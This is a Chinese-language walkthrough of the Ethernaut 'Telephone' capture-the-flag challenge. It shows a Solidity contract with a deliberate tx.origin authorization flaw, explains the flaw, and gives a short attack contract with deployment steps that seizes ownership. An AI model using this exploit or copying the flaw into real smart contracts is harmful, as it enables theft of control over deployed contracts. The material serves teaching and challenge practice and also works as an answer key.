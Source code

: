 # Telephone
tx.origin和msg.sender的不同
```solidity
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### 代码分析
1. 当调用changeOwner(address)方法时，tx.origin与msg.sender不一致时即可获取到owner权限
2. tx.origin代表发出交易的原始方（交易的最初发起方）
3. msg.sender可以理解为发出当前call的发送方，当使用合约的call时，msg.sender会被替换为合约地址。

### 攻击合约
[官方答案](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/TelephoneAttack.sol)
```solidity
pragma solidity ^0.4.18;

contract TelephoneAttack {

  function attack(address _victim, address _owner) public {
    _victim.call(bytes4(keccak256("changeOwner(address)")), _owner);
  }
}
```
_victim为游戏合约instance的地址  
_owner为需要获取owner权限的地址

### 攻击方法
1. 部署攻击合约
2. 调用攻击合约方法attack(address, address)